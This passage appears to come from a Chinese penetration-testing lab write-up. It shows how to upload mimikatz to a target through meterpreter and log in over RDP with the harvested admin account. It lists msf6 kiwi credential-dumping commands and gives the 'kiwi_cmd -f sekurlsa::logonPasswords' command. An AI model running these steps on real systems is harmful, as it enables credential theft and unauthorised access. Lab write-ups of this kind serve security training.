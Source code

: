 当然也可以上传个mimikatz.exe直接整

```
upload mimikatz.exe路径 靶机路径：如upload root\mimikatz.exe路径 靶机
```

然后就可以利用3389端口和获得的管理员帐号来进行远程登录了
（思路不限制，主要还是习惯，看一些文章有的师傅是直接新建用户进行远程登录再进行操作提权这些）



> 后面重新打了一遍，msf6中mimikatz被kiwi替代了，可以输入help kiwi查看相关指令
>
> ```
> meterpreter > help kiwi
> 
> Kiwi Commands
> =============
> 
>     Command                Description
>     -------                -----------
>     creds_all              Retrieve all credentials (parsed)
>     creds_kerberos         Retrieve Kerberos creds (parsed)
>     creds_livessp          Retrieve Live SSP creds
>     creds_msv              Retrieve LM/NTLM creds (parsed)
>     creds_ssp              Retrieve SSP creds
>     creds_tspkg            Retrieve TsPkg creds (parsed)
>     creds_wdigest          Retrieve WDigest creds (parsed)
>     dcsync                 Retrieve user account information via DCSync (unparsed)
>     dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
>     golden_ticket_create   Create a golden kerberos ticket
>     kerberos_ticket_list   List all kerberos tickets (unparsed)
>     kerberos_ticket_purge  Purge any in-use kerberos tickets
>     kerberos_ticket_use    Use a kerberos ticket
>     kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
>     lsa_dump_sam           Dump LSA SAM (unparsed)
>     lsa_dump_secrets       Dump LSA secrets (unparsed)
>     password_change        Change the password/hash of a user
>     wifi_list              List wifi profiles/creds for the current user
>     wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
> 
> ```
>
> 可以用kiwi_cmd来执行mimikatz的命令
>
> ```shell
> kiwi_cmd -f sekurlsa::logonPasswords
> ```
>
> 结果如下：
>
> ![](https://i.loli.net/2021/11/04/ka3inTQUNbrDx4c.png)
>
> 
